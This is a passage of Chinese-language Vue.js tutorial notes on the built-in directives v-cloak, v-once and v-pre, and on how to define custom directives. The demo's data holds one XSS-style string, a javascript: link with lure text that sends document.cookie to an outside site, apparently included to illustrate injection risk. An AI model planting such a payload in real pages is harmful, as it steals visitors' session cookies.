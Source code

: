 ```html
        <!--v-cloak-->
        <div v-cloak >{{name}}</div>
        <!-- v-once -->
        <div v-once>n:{{n}}</div><br>
        <div>n:{{n}}</div>
        <button @click="n++">n+1</button>
        <!--v-pre-->
        <div v-pre>跳过简简单单</div>
    </div>
</body>
<script>
    $('[v-cloak]').css({"display":"none"})
    setTimeout(() => {
    const vm=new Vue({
        el:'#root',
        data:{
            name:'内置指令',
            n:0,
            str:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟快来，这里好多牛牛</a>'
        }
    })
    }, 3000);
    
    
</script>
```

## 14、自定义指令

一、定义语法：

1. 局部指令：
   1. `new Vue({directives:{指令名:配置对象}})` 或 `new Vue({directives(){}})`
2. 全局指令：
   1. `Vue.directive(指令名，配置对象)` 或 `Vue.directive(指令名，回调函数)`

二、配置对象中常用的3个回调（以及执行顺序）：

(1). bind：指令与元素成功绑定

(2). inserted：指令所在元素被插入页面时调用。

(3). update：指令所在模板结构被重新解析时调用。

三、备注：

(1).指令定义时不加v-，但使用时要加v-；

(2).指令名如果时多个单词，要使用kebab-case命名方式，不要用camelCase命名。

(3).回调函数中是Window管理（this是Window）

实例解决需求：
